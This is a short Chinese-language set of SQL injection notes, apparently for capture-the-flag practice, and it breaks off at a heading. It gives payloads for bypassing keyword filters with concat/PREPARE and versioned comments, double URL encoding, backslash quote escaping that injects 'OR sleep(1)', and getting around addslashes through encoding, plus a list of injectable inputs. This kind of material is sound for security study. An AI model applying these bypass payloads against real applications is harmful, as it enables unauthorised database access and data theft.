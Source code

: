 ## 双重url编码绕过

or ---  %25%36%66%25%37%32

## 正则匹配select

```
set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;#
```

或者

```
/*!50000select*/
```

## 过滤引号

可以用`\`使引号逃逸

如果有

```php
$sql = "SELECT * FROM wp_news WHERE id = 'a' AND title = 'haha'"
```

可以构造

```php
$sql = "SELECT * FROM wp_news WHERE id = 'a\' AND title = 'OR sleep(1)'"
```

后面的title处的语句就可以逃逸，成功执行

## addslashes

这个函数开启会转义特殊字符

可以通过编码绕过，比如base64,urldecode进行转移，这个时候参数处于编码状态，无法被转义

# 一些可控点

- 上传文件的文件名
- http header

# 注入点

## SELECT

```SQL
SELECT select_expr FROM table_references 
```

### 注入点在select_expr
